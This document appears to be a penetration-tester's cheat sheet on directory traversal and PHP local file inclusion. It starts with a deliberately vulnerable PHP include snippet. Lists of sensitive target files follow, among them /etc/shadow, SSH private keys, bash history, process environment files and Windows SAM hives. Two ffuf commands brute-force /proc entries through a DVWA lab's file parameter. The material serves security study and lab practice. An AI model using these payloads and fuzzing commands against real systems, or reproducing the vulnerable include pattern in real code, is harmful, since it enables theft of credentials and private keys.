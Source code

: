 # Manual

```php
<?php
$file = $_GET['file'];
if(isset($file)) {
	include($file);
}
?>
```

## Directory Traversal

Navigating directories

### Linux

```
/etc/passwd
```

### Windows

```
/windows/win.ini
\\localhost\c$\windows\win.ini
```

## Local File Inclusion (LFI)

### General

#### Enumeration

- Check for disable_functions

```
phpinfo.php
```

### Linux

```
/etc/group
/etc/shadow
/home/<username>/.ssh/id_rsa
/root/.ssh/id_rsa
/etc/crontab
/home/<username>/.bash_history

/etc/os-release

/etc/hosts
/etc/resolv.conf
/proc/net/tcp
/proc/net/udp
/proc/net/arp
/proc/net/dev

/etc/ssh/sshd_config

/proc/self/cmdline
/proc/<pid>/cmdline

/proc/self/environ
/proc/<pid>/environ

/proc/self/cwd
/proc/<pid>/cwd

/proc/self/fd/<pid>

/proc/self/stat
/proc/self/status
/proc/mounts
```

```
$ ffuf -u "http://dvwa.local/dvwa/vulnerabilities/fi/?page=FUZZ" -b "PHPSESSID=<PHP_cookie_session_ID>;security=low" -c -w <(for i in $(seq 10000); echo "/proc/$i/cmdline") -mc 200


$ ffuf -u "http://dvwa.local/dvwa/vulnerabilities/fi/?page=FUZZ" -b "PHPSESSID=<PHP_cookie_session_ID>;security=low" -c -w <(for i in $(seq 10000); echo "/proc/$i/fd") -mc 200
```

### Windows

```
/WINDOWS/repair/sam
/WINDOWS/repair/system
```

---
## References

- [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/Shell Is The Beginning/02 - Enumeration and Discovery/Linux/Log Files/Manual/Living off the Land|Log Files]]

- [Hacking Articles: Comprehensive Guide on Path Traversal](https://www.hackingarticles.in/comprehensive-guide-on-path-traversal/)

- [SecurityIdiots: Guide to LFI](https://securityidiots.com/Web-Pentest/LFI/guide-to-lfi.html)

- [BorderGate: Local File Inclusion (LFI) Attacks](https://www.bordergate.co.uk/local-file-inclusion-attacks/)